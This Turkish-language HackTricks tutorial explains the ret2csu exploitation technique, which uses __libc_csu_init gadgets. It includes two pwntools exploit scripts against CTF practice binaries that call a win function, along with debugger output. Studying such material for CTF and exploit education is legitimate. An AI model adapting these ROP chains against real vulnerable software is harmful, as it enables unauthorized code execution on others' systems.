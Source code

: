 # Ret2csu

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 **Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Temel Bilgiler

**ret2csu**, bir programın kontrolünü ele geçirmeye çalışırken genellikle programın davranışını manipüle etmek için kullandığınız **gadget'ları** bulamadığınızda kullanılan bir hackleme tekniğidir.&#x20;

Bir program belirli kütüphaneleri (örneğin libc) kullandığında, programın farklı parçalarının birbirleriyle nasıl iletişim kuracaklarını yönetmek için bazı yerleşik işlevlere sahiptir. Bu işlevler arasında, özellikle `__libc_csu_init` adı verilen bir tanesi gibi, eksik gadget'larımız gibi davranabilen bazı gizli mücevherler bulunmaktadır.

### \_\_libc\_csu\_init'teki Sihirli Gadget'lar

**`__libc_csu_init`** içinde vurgulanması gereken iki talimat dizisi (gadget) bulunmaktadır:

1. İlk dizi bize birkaç kayıtta (rbx, rbp, r12, r13, r14, r15) değerler ayarlamamıza olanak tanır. Bunlar, daha sonra kullanmak istediğimiz sayıları veya adresleri saklayabileceğimiz yuvalar gibidir.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Bu cihaz, bu kayıtları yığınından çıkararak onları kontrol etmemizi sağlar.

2. İkinci sıra, kurduğumuz değerleri kullanarak birkaç şey yapmak için kullanılır:
* **Belirli değerleri diğer kayıtlara taşır**, böylece bunları işlevlerde parametre olarak kullanmaya hazır hale getirir.
* r15 ve rbx'deki değerleri toplayarak belirlenen bir konuma **çağrı yapar**, ardından rbx'i 8 ile çarpar.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. Belki de oraya yazacak herhangi bir adres bilmiyorsunuz ve bir `ret` talimatına ihtiyacınız var. İkinci cihaz da bir `ret` ile sona erecek, ancak ona ulaşmak için bazı **koşulları karşılamanız gerekecek**:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
Koşullar şunlar olacak:

* `[r12 + rbx*8]`, çağrılabilir bir işlevi saklayan bir adrese işaret etmelidir (fikir yoksa ve pie yoksa, sadece `_init` işlevini kullanabilirsiniz):
* Eğer \_init `0x400560` adresinde ise, GEF'i kullanarak bellekte ona işaret eden bir işaretçi arayın ve `[r12 + rbx*8]` adresi, \_init'e işaret eden işaretçi olan adres olsun:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` ve `rbx`nin aynı değere sahip olması zıplamayı önlemek için gereklidir
* Dikkate almanız gereken bazı atlanmış pop'lar bulunmaktadır

## RDI ve RSI

Ret2csu cihazından **`rdi`** ve **`rsi`**'yi kontrol etmenin başka bir yolu, belirli ofsetlere erişerek yapılır:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Daha fazla bilgi için bu sayfaya bakın:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## Örnek

### Çağrıyı Kullanma

Bir sistem çağrısı yapmak veya `write()` gibi bir işlevi çağırmak istediğinizi hayal edin, ancak `rdx` ve `rsi` kayıtlarında belirli değerlere ihtiyacınız var. Normalde, bu kayıtları doğrudan ayarlayan cihazları arardınız, ancak hiçbirini bulamazsınız.

İşte burada **ret2csu** devreye giriyor:

1. **Kayıtları Ayarlayın**: İlk sihirli cihazı kullanarak yığınından değerleri rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) ve r15'e alın.
2. **İkinci Cihazı Kullanın**: Bu kayıtlar ayarlandıktan sonra ikinci cihazı kullanırsınız. Bu, seçtiğiniz değerleri `rdx` ve `rsi`'ye (sırasıyla r14 ve r13'ten) taşımanıza olanak tanır, işlev çağrısı için parametreleri hazırlar. Dahası, `r15` ve `rbx`'i kontrol ederek, hesapladığınız ve `[r15 + rbx*8]`'e yerleştirdiğiniz adreste bulunan bir işlevi programı çağırabilirsiniz.

Bu tekniği kullanan ve açıklayan bir [**örneğe buradan ulaşabilirsiniz**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), ve kullanılan son saldırı şudur:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Önceki saldırının bir **`RCE`** gerçekleştirmek için değil, sadece `win` adlı bir işlevi çağırmak için tasarlandığını unutmayın (`win` adresini stdin'den alarak ROP zincirinde gets'i çağırıp ve r15'te saklayarak üçüncü argümanı `0xdeadbeefcafed00d` değeri ile çağırır).
{% endhint %}

### Çağrıyı atlayarak ve ret'e ulaşarak geçme

Aşağıdaki saldırı [**bu sayfadan**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) çıkarılmıştır, burada **ret2csu** kullanılmış ancak çağrı yerine karşılaştırmaları atlayarak ve çağrıdan sonra `ret`'e ulaşılmıştır:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### Neden Sadece libc'yi Kullanmıyoruz?

Genellikle bu durumlar [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) için de savunmasız olabilir, ancak bazen doğrudan libc içinde bulduğunuz gadget'larla kolayca kontrol edilemeyen daha fazla parametreyi kontrol etmeniz gerekebilir. Örneğin, `write()` fonksiyonu üç parametre gerektirir ve **bu parametreleri doğrudan ayarlamak için gerekli olan gadget'ları bulmak mümkün olmayabilir**.

